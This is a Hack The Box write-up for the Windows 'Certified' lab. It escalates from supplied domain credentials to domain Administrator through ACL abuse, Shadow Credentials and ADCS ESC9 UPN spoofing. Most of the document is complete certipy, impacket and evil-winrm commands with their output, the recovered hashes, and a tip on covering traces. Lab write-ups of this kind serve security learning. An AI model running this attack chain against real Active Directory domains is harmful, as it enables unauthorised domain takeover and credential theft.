

# HTB: Certified — Writeup

**Difficulty:** Medium
**OS:** Windows (Active Directory)
**Techniques:** Assumed-breach AD enumeration, ACL abuse (WriteOwner → DACL write → group membership), Shadow Credentials (GenericWrite/GenericAll abuse), ADCS ESC9 (No Security Extension) via UPN manipulation

---

## Overview

Certified is an "assumed breach" Active Directory box — no initial foothold hunting is required, as low-privilege domain credentials are provided up front. BloodHound reveals an ACL abuse chain: the starting user has `WriteOwner` over the `Management` group, which in turn has `GenericWrite` over the `management_svc` service account. Taking ownership of the group, granting membership rights, and joining it unlocks a Shadow Credentials attack against `management_svc`, yielding a shell and the user flag. From there, `management_svc` has `GenericAll` over a `ca_operator` account, which is itself the only enrollable principal on a vulnerable ADCS certificate template (`CertifiedAuthentication`) suffering from ESC9 — no security extension embedded in issued certificates. Changing `ca_operator`'s UPN to `Administrator`, requesting a certificate from that template, and authenticating with it yields the domain Administrator's NTLM hash and full control of the box.


---

## Recon

### Nmap

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ nmap -p- -sCV 10.129.231.186 -oA nmap/certified
# Nmap 7.95 scan initiated Thu Aug 20 17:32:14 2026 as: nmap -p- -sCV -v -Pn -oA nmap/certified 10.129.231.186
Nmap scan report for 10.129.231.186
Host is up (0.028s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-20 23:35:27Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-08-20T23:36:59+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:DC01.certified.htb, DNS:certified.htb, DNS:CERTIFIED
| Issuer: commonName=certified-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-06-11T21:05:29
| Not valid after:  2105-05-23T21:05:29
| MD5:   ac8a:4187:4d19:237f:7cfa:de61:b5b2:941f
|_SHA-1: 85f1:ada4:c000:4cd3:13de:d1c2:f3c6:58f7:7134:d397
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-08-20T23:36:59+00:00; +7h00m01s from scanner time.
[... duplicate ssl-cert block omitted, identical to above ...]
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-08-20T23:36:59+00:00; +7h00m01s from scanner time.
[... duplicate ssl-cert block omitted, identical to above ...]
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
49734/tcp open  msrpc         Microsoft Windows RPC
49772/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-08-20T23:36:20
|_  start_date: N/A
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 20 17:36:58 2026 -- 1 IP address (1 host up) scanned in 284.49 seconds
```

Standard Windows Domain Controller port spread — DNS, Kerberos, LDAP(S), SMB, WinRM, and the AD Web Services port (9389). The `ssl-cert` and `smb2-time` scripts both flagged a **~7 hour clock skew** between the scanning box and the DC — this detail turned out to matter a great deal later on, when Kerberos authentication started failing during exploitation.

Domain identified as `certified.htb`, hostname `DC01.certified.htb`, IP `10.129.231.186`.

### `/etc/hosts`

```
10.129.231.186 certified certified.htb DC01 DC01.certified.htb
```

### Provided Credentials

This is an assumed-breach box — a low-privilege domain account was provided at the start:

```
judith.mader:judith09
```

---

## Enumeration — BloodHound

Domain data was collected with `bloodhound-ce-python` (BloodHound Community Edition ingestor) using the provided credentials:

```bash
bloodhound-ce-python -u 'judith.mader' -p 'judith09' -d certified.htb -c All -dc DC01.certified.htb -ns 10.129.231.186
```

Loading the resulting JSON into BloodHound CE and marking `judith.mader` as owned revealed a short, direct ACL abuse path:

1. **judith.mader** → `WriteOwner` → **Management** (group)
2. **Management** → `GenericWrite` → **management_svc** (user)
3. **management_svc** → `GenericAll` → **ca_operator** (user)



The name `ca_operator` was a strong hint that this account was tied into Active Directory Certificate Services (ADCS) — worth investigating once compromised.

---

## User — Abusing WriteOwner → GenericWrite (management_svc)

### Step 1: Take ownership of the Management group

`WriteOwner` alone doesn't grant access — it lets the holder change the object's `Owner` field, which then implicitly grants rights to modify the object's DACL. Attempted first without the domain FQDN, which failed with an LDAP referral error since the short-form domain name doesn't resolve to a valid naming context:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ owneredit.py -action write -new-owner judith.mader -target management certified/judith.mader:judith09 -dc-ip 10.129.231.186
Impacket v0.14.0.dev0+20260819.94127.f133bb88 - Copyright Fortra, LLC and its affiliated companies

[-] Error in searchRequest -> referral: 0000202B: RefErr: DSID-0310084A, data 0, 1 access points
        ref 1: 'certified'
```

Corrected by using the fully-qualified domain name (`certified.htb`) instead of the short form (`certified`) in the identity string:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ owneredit.py -action write -new-owner judith.mader -target management certified.htb/judith.mader:judith09 -dc-ip 10.129.231.186
Impacket v0.14.0.dev0+20260819.94127.f133bb88 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

### Step 2: Grant write-members rights via DACL edit

As the new owner, a new ACE was written into Management's DACL granting `judith.mader` the right to add/remove group members. The first two attempts hit a flag typo (`-principle` instead of `-principal`):

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ dacledit.py -action 'write' -rights 'WriteMembers' -principle judith.mader -target Management certified.htb/judith.mader:judith09 -dc-ip 10.129.231.186
Impacket v0.14.0.dev0+20260819.94127.f133bb88 - Copyright Fortra, LLC and its affiliated companies

usage: dacledit.py [-h] [-use-ldaps] [-ts] [-debug] [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                   [-aesKey hex key] [-dc-ip ip address] [-dc-host hostname]
                   [-principal NAME] [-principal-sid SID] [-principal-dn DN] [-target NAME]
                   [-target-sid SID] [-target-dn DN]
                   [-action [{read,write,remove,backup,restore}]] [-file FILENAME]
                   [-ace-type [{allowed,denied}]]
                   [-rights [{FullControl,ResetPassword,WriteMembers,DCSync,Custom}]]
                   [-rights-guid RIGHTS_GUID] [-mask [MASK]] [-inheritance]
                   identity
dacledit.py: error: unrecognized arguments: -principle certified.htb/judith.mader:judith09
```

Corrected with the properly-spelled `-principal` flag:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ dacledit.py -action 'write' -rights 'WriteMembers' -principal judith.mader -target Management certified.htb/judith.mader:judith09 -dc-ip 10.129.231.186
Impacket v0.14.0.dev0+20260819.94127.f133bb88 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20260820-190638.bak
[*] DACL modified successfully!
```

### Step 3: Add judith.mader to the Management group

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ net rpc group addmem Management judith.mader -U certified.htb/judith.mader%judith09 -S 10.129.231.186
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ net rpc group members Management -U certified.htb/judith.mader%judith09 -S 10.129.231.186
CERTIFIED\judith.mader
CERTIFIED\management_svc
```

Membership confirmed — `judith.mader` is now a member of `Management`, which holds `GenericWrite` over `management_svc`.

### Step 4: Shadow Credentials attack against management_svc

`GenericWrite` over a user account allows adding a Shadow Credential (`msDS-KeyCredentialLink`) — a certificate-backed authentication key attacker-controlled — without ever touching the account's actual password. Certipy's `shadow auto` handles credential creation, PKINIT authentication, and NT hash retrieval in one step.

The first several attempts failed with a Kerberos clock skew error, consistent with the ~7 hour skew flagged by nmap earlier:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy shadow auto -u judith.mader@certified.htb -p judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'c146b25bfffb4ed8aaa690150ab3cac7'
[*] Adding Key Credential with device ID 'c146b25bfffb4ed8aaa690150ab3cac7' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID 'c146b25bfffb4ed8aaa690150ab3cac7' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'management_svc@certified.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': None
```

**Troubleshooting the clock skew:** Kerberos requires the client clock to be within ~5 minutes of the KDC's. `sudo ntpdate -u <dc-ip>` was run to sync against the DC directly, but each run reported needing to step the clock by almost exactly the same ~7 hours again — a sign something was continuously reverting the manual fix. `timedatectl status` confirmed a background NTP service was active and fighting the correction:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ timedatectl status
               Local time: Thu 2026-08-20 19:19:25 BST
           Universal time: Thu 2026-08-20 18:19:25 UTC
                 RTC time: Thu 2026-08-20 18:19:23
                Time zone: Europe/London (BST, +0100)
System clock synchronized: no
              NTP service: active
          RTC in local TZ: no
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ sudo timedatectl set-ntp false
```

Disabling `systemd-timesyncd` wasn't sufficient either — a few more `ntpdate` + `certipy shadow auto` cycles still hit the same skew error. Since the attack box is a VirtualBox VM, VirtualBox Guest Additions' own separate time-sync service (independent of `timedatectl`/NTP) was the real culprit, periodically resetting the guest clock back to the host's time. The fix was to **win the race** — run `ntpdate` immediately before the `certipy` command, back-to-back, so the correction landed before Guest Additions could resync:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ sudo ntpdate -u 10.129.231.186
2026-08-21 02:22:11.871184 (+0100) +25199.050180 +/- 0.012880 10.129.231.186 s1 no-leap
CLOCK: time stepped by 25199.050180
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy shadow auto -u judith.mader@certified.htb -p judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'e156889165974cb0ba09d370285ab20a'
[*] Adding Key Credential with device ID 'e156889165974cb0ba09d370285ab20a' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID 'e156889165974cb0ba09d370285ab20a' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'management_svc@certified.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': None
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ sudo ntpdate -u 10.129.231.186
2026-08-21 02:22:33.875284 (+0100) +25199.087644 +/- 0.012563 10.129.231.186 s1 no-leap
CLOCK: time stepped by 25199.087644
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy shadow auto -u judith.mader@certified.htb -p judith09 -account management_svc -target certified.htb -dc-ip 10.129.231.186
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'management_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '85b5536d67af4e25b988059ece036d5a'
[*] Adding Key Credential with device ID '85b5536d67af4e25b988059ece036d5a' to the Key Credentials for 'management_svc'
[*] Successfully added Key Credential with device ID '85b5536d67af4e25b988059ece036d5a' to the Key Credentials for 'management_svc'
[*] Authenticating as 'management_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'management_svc@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'management_svc.ccache'
[*] Wrote credential cache to 'management_svc.ccache'
[*] Trying to retrieve NT hash for 'management_svc'
[*] Restoring the old Key Credentials for 'management_svc'
[*] Successfully restored the old Key Credentials for 'management_svc'
[*] NT hash for 'management_svc': a091c1832bcdd4677c28b5a6a1295584
```

NT hash obtained for `management_svc`: `a091c1832bcdd4677c28b5a6a1295584`

### Step 5: Shell as management_svc

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ evil-winrm -i 10.129.231.186 -u management_svc -H a091c1832bcdd4677c28b5a6a1295584

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\management_svc\Documents> dir
*Evil-WinRM* PS C:\Users\management_svc\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\management_svc\desktop> dir


    Directory: C:\Users\management_svc\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/20/2026  11:44 AM             34 user.txt


*Evil-WinRM* PS C:\Users\management_svc\desktop> type user.txt
cf609e152912021666f19edb83649462
```

`user.txt` retrieved.

---

## Root — GenericAll over ca_operator → ADCS ESC9

### Step 1: Shadow Credentials attack against ca_operator

`management_svc` holds `GenericAll` over `ca_operator` per BloodHound — the same Shadow Credentials technique applies, authenticating this time with the `management_svc` NT hash. The same clock-skew race condition hit again and required the same `ntpdate` + immediate retry workaround:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ sudo ntpdate -u 10.129.231.186
2026-08-21 02:32:33.875284 (+0100) +25199.087644 +/- 0.012563 10.129.231.186 s1 no-leap
CLOCK: time stepped by 25199.087644
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.129.231.186
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'bdab648c1ed04395ae3cf4301096edc9'
[*] Adding Key Credential with device ID 'bdab648c1ed04395ae3cf4301096edc9' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'bdab648c1ed04395ae3cf4301096edc9' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_operator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_operator.ccache'
[*] Wrote credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2
```

NT hash obtained for `ca_operator`: `b4b86f45c6018f1b664f70805f45d8f2`

### Step 2: ADCS enumeration — finding ESC9

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy find -vulnerable -u ca_operator -hashes b4b86f45c6018f1b664f70805f45d8f2 -target certified.htb -dc-ip 10.129.231.186
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 15 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'certified-DC01-CA'
[*] Checking web enrollment for CA 'certified-DC01-CA' @ 'DC01.certified.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20260820193436_Certipy.txt'
[*] Wrote text output to '20260820193436_Certipy.txt'
[*] Saving JSON output to '20260820193436_Certipy.json'
[*] Wrote JSON output to '20260820193436_Certipy.json'
```

The relevant excerpt of the saved output:

```
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : PublishToDs
                                          AutoEnrollment
                                          NoSecurityExtension
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Full Control Principals         : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFIED.HTB\operator ca
    [!] Vulnerabilities
      ESC9                              : Template has no security extension.
    [*] Remarks
      ESC9                              : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
```

`CertifiedAuthentication` carries the `NoSecurityExtension` enrollment flag, and `ca_operator` (`operator ca`) is its only enrollable non-admin principal — exactly matching the account already compromised.

### Step 3: ESC9 exploitation — UPN spoofing

Because the template has `NoSecurityExtension` set, certificates it issues carry no embedded object SID — the only identity binding comes from the certificate's UPN field. Since `management_svc` has `GenericAll` over `ca_operator`, the account's `userPrincipalName` attribute was changed to `Administrator` before requesting a certificate:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn Administrator -dc-ip 10.129.231.186
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy req -u ca_operator -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 5
[*] Successfully requested certificate
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

The certificate was issued as `ca_operator` but carries the UPN `Administrator` — with no SID embedded to contradict it. `ca_operator`'s UPN was then restored to its original value to avoid leaving the domain in a visibly tampered state:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator -dc-ip 10.129.231.186
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator
[*] Successfully updated 'ca_operator'
```

### Step 4: Authenticating as Administrator

The forged certificate was used to request a TGT and recover the Administrator NT hash. This hit the same clock-skew issue one more time before succeeding:

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[-] Use -debug to print a stacktrace
[-] See the wiki for more information
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ sudo ntpdate -u 10.129.231.186
2026-08-21 02:42:55.909990 (+0100) +25199.093600 +/- 0.019126 10.129.231.186 s1 no-leap
CLOCK: time stepped by 25199.093600
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ certipy auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator'
[*] Using principal: 'administrator@certified.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

Administrator NT hash obtained: `0d5b49608bbce1751f708748f67e2d34`

### Step 5: Root shell

```
┌─[machines_eu-dedivip-1]─[10.10.15.26]─[darkangel3007@parrot]─[~/htb/in-progress/machines/certified]
└──╼ [★]$ evil-winrm -i 10.129.231.186 -u administrator -H 0d5b49608bbce1751f708748f67e2d34

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/20/2026  11:44 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
5e4e470491c6f84643d762578be4cf39
```

`root.txt` retrieved.

---

## Summary of Techniques

| Stage | Technique |
|---|---|
| Recon | Standard AD DC port sweep; noted ~7 hour clock skew flagged by nmap up front |
| Enumeration | `bloodhound-ce-python` collection revealing a 3-hop ACL abuse chain |
| Access (1) | `WriteOwner` abuse on the `Management` group via `owneredit.py` |
| Access (2) | DACL edit granting `WriteMembers` via `dacledit.py`, then self-adding via `net rpc group addmem` |
| Access (3) | `GenericWrite` over `management_svc` abused via Certipy Shadow Credentials (`certipy shadow auto`) |
| User | Evil-WinRM with recovered NT hash for `management_svc` |
| PrivEsc (1) | `GenericAll` over `ca_operator` abused via Shadow Credentials again |
| PrivEsc (2) | ADCS enumeration (`certipy find -vulnerable`) identifying ESC9 on the `CertifiedAuthentication` template |
| PrivEsc (3) | ESC9 exploitation: UPN spoofing (`certipy account update -upn`) + certificate request against the no-security-extension template |
| Root | Certificate-based Kerberos auth (`certipy auth`) recovering the Administrator NT hash, then Evil-WinRM |
| Troubleshooting (recurring) | Kerberos `KRB_AP_ERR_SKEW` caused by VirtualBox Guest Additions' background time-sync service fighting manual `ntpdate` corrections — resolved by racing `ntpdate` immediately before each Kerberos-dependent command |

---

## Lessons / Takeaways

- `WriteOwner` is rarely the end of a chain by itself — it's a stepping stone to a DACL write, which is a stepping stone to whatever right gets granted next. Always walk the full BloodHound path before acting.
- Shadow Credentials (`msDS-KeyCredentialLink` abuse) is a clean way to compromise an account via `GenericWrite`/`GenericAll` without resetting a password and potentially locking out the legitimate user or triggering alerts.
- ADCS templates with `NoSecurityExtension` (ESC9) are exploitable specifically when an attacker also controls (or can modify) another attribute — like UPN — of an account permitted to enroll, since the issued certificate's identity binding falls back to that attribute with no SID to contradict it.
- Kerberos is extremely clock-sensitive (default 5-minute tolerance). In lab/VM environments, background time-sync agents (systemd-timesyncd, chronyd, or hypervisor guest tools like VirtualBox Guest Additions) can silently fight manual clock corrections — check `timedatectl status` for NTP state, but also consider hypervisor-level time sync as a separate culprit if the OS-level fix doesn't stick.
- Restoring an abused account's UPN after cert issuance is worth doing as a matter of engagement hygiene — it isn't required for the exploit to work, but leaves less of an obvious trace.
